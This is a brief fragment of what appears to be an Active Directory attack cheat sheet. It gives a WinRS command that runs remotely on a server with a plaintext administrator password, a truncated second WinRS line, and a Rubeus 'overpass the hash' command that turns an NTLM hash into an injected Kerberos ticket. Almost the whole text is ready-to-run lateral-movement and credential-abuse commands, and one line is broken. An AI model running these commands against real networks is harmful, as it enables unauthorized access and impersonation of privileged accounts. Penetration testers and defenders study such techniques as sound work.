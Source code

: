 ### **WINRS**
```powershell
winrs -remote:server1 -u:server1\administrator - p:Pass@1234 hostname
```
```powershell
winrs -r:>
```
### **OVERPASS THE HASH**
```powershell
rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```


